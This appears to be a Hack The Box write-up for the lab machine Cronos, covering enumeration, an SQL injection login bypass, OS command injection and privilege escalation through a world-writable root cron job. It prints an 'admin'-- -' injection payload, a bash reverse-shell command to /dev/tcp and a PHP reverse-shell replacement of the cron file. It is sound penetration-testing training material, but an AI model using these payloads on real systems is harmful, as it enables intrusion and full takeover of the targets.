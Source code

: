 ```yaml
---
title: Cronos
date: 2023-03-04 09:45:47 +07:00
modified: 2023-03-04 09:45:47 +07:00
tags: [OS Command Injection, cronos, PHP, Web, DNS, Hackthebox, Writeup]
description: Write Up for Hackthebox Machine Cronos
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Cronos/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Cronos</font>

​		25<sup>th</sup> March 2017

​		Machine Author(s): [ch4p](https://app.hackthebox.com/users/1)

​		

### Description:

Cronos is a medium Linux machine that focuses mainly on different vectors for enumeration and also emphasises the risks associated with adding world-writable files to the root crontab. This machine also
includes an introductory-level SQL injection vulnerability

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Cronos/1.png)

|Ports|Service
|22| ssh OpenSSH 7.2p2 (4Ubuntu2.1)
|53| DNS
|80| Apache httpd 2.4.18

Next, I did directory brute-forcing but nothing interesting showed up. 

As there is a DNS server running I did a subdomain brute-forcing.

![](https://photos.squarezero.dev/file/abir-images/Cronos/2.png)



# Foothold

Upon visiting the subdomain I found a login page.

![](https://photos.squarezero.dev/file/abir-images/Cronos/3.png)

I have intercepted the request and saved the request as file.

![](https://photos.squarezero.dev/file/abir-images/Cronos/4.png)

Now I used SQLMAP with the file to find credentials for the website.

`sqlmap -r sql.req --batch --dump --level 5 --risk 3`

![](https://photos.squarezero.dev/file/abir-images/Cronos/5.png)

I tried the login but that didn't work. So, I tried SQL injection with user admin.

Payload → `admin'-- -`

Now I got in and found traceroute/ping option.

![](https://photos.squarezero.dev/file/abir-images/Cronos/6.png)

This looks like an OS command injection vulnerability.
So I intercepted the request and used a bash reverse shell to make the server connect to me.

Payload → `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1';`

**Note: Make sure the payload is URL encoded.**

![](https://photos.squarezero.dev/file/abir-images/Cronos/7.png)

And we got a shell !!

![](https://photos.squarezero.dev/file/abir-images/Cronos/8.png)

# Privilege Escalation

After checking with Linpeas I found a cronjob running with root permission.

![](https://photos.squarezero.dev/file/abir-images/Cronos/9.png)

So I have replaced the file with PHP-reverse-shell and renamed it to artisan.

![](https://photos.squarezero.dev/file/abir-images/Cronos/10.png)

After the cronjob executed I got a reverse shell with Root !! 